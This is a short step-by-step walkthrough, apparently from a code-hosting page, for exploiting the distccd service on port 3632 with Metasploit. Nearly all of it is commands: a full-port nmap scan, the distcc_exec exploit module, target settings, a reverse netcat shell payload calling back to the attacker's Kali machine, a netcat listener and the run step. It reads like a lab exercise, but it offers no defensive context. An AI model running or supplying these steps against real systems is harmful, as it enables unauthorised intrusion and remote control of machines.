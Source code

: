 #### 1. Scan the target to find open ports and services
```
sudo nmap -sV <target-ip> -p-
```
#### Look for port 3632 running distccd service

#### 2. Start Metasploit
```
msfconsole
```
#### 3. Search and use the distcc exploit
```
search distcc
use exploit/unix/misc/distcc_exec
```
#### 4. Set target IP
```
set RHOSTS <target-ip>
```
#### 5. Set payload for reverse shell
```
set PAYLOAD cmd/unix/reverse_netcat
```
#### 6. Set your Kali IP as listener
```
set LHOST <your-kali-ip>
set LPORT 4444
```

#### 7. Check all settings
```
show options
```
#### 8. (Optional) Start Netcat listener in a new terminal
```
nc -lvnp 4444
```
#### 9. Run the exploit
```
run
```